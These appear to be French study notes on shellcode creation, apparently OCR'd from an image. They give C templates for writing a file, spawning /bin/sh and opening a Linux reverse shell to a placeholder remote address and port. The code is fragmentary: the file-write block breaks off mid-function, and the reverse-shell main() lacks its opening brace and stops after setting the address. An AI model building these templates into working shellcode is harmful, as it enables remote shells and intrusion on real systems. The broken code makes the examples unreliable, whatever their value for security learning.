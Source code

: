  
Un shellcode s'est générallement écrit en assembler puis converti en hexa car on doit directement manipuler les registres et les fonctions.


## Choses à savoir
https://blog.securitybreak.io/reverse-engineering-tips-debugging-shellcode-e821290a7d61
### Processus de création de shellcode

- Le processus en soi est plus ou moins toujours le même.

###### 1. Écriture de la fonction du shellcode en langage high-level

- Là le but c'est de créer une "template" de l'utilité de ton shellcode. Souvent, on veut faire du privilège escalation ou du reverse shell.
- Le mieux c'est de directement faire le shellcode en asm pour ne pas avoir à analyser le code asm provenant du code en C.

**Exemple de programme en C à transformer en shellcode**
```
/*Écrire dans un fichier*/
#include <stdio.h>
int main() {
    FILE *fp;
    char buffer[256];

    printf("Entrez le texte à écrire dans le fichier : ");
    fgets(buffer, sizeof(buffer), stdin);

    fp = fopen("file.txt", "w");
    if (fp == NULL) {
        printf("Impossible d'ouvrir le fichier.\n");
        return 1;
    }
```



```
/*Lancement d'un shell*/
#include <stdio.h>
#include <stdlib.h>

int main(){
	system("/bin/sh");
	return 0;
}
```



```
/*Reverse shell sur linux target*/
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "XXX.XXX.XXX.XXX"
#define REMOTE_PORT XXX

int main(int argc, char *argv[])
	struct sockaddr_in sa;
	int s;
	sa.sin_family = AF_INET;
	sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
```